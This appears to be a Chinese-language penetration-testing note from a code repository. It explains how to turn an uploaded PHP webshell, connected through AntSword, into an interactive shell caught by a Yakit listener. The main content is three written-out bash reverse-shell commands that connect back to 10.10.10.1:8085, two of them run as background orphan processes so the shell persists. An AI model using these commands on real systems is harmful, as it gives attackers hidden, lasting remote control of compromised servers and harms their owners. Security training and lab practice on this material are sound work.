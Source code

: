 # 渗透工具



## 交互式 shell

### 蚁剑 + yakit

场景：php 上传一句话木马，中国蚁剑连接成功，启用虚拟终端。



yakit 打开端口监听器

![image-20250228144415998](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228144415998.png)



yakit 代码生成器，生成好代码。

![image-20250228144520351](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228144520351.png)

```
/bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1
```



利用 Linux 孤儿进程的特性，让进程在后台常驻。

```
/bin/bash -c '(/bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1) & '
```

```
/bin/bash -c \"( /bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1 ) & \"
```



在蚁剑的虚拟终端中执行代码。

![image-20250228155651062](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228155651062.png)



yakit 上就可以使用了

![image-20250228155716709](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228155716709.png)





